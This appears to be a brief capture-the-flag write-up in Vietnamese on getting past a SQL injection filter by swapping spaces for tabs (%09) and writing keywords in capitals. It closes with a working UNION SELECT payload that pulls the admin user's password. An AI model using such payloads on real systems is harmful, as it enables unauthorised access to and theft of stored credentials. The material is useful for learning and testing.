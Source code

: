![alt text](image.png)

bypass:
space -> tab %09

ở đây union, select, admin không được chuyển về dạng chữ thường nên ta có thể bypass bằng chữ in hoa.
payload: uid=a'	UNION	SELECT	1,(SELECT	upw	FROM	user	WHERE	uid='ADMIN'),1;--
